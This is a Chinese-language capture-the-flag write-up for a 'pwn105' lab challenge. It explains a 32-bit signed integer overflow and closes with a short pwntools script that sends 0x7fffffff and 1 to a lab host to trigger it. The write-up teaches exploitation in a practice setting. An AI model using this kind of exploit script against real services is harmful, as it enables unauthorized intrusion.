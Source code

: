 



通过分析可以得出，这三个变量占用4个字节，整数溢出

由于最高位表示正数，变量占用4字节，所以输入的第一个参数将最高位设为0，其他位置设为1

![image-20231118111354623](images/pwn101%E9%9D%B6%E5%9C%BA.assets/image-20231118111354623.png)

第二个参数为1

01111111111111111111111111111111 + 1 = 10000000000000000000000000000000 （负数）

这样就整数溢出，变成了一个负数了。

![image-20231118110959896](images/pwn101%E9%9D%B6%E5%9C%BA.assets/image-20231118110959896.png)



构造payload

```python
#!/usr/bin/env python
from pwn import *


#sh = process('./pwn105')
sh = host = remote('10.10.251.129',9005)
context.log_level = "debug"


payload = str(0x7fffffff) 

sh.sendline(payload)

payload = str(0x1)

sh.sendline(payload)
```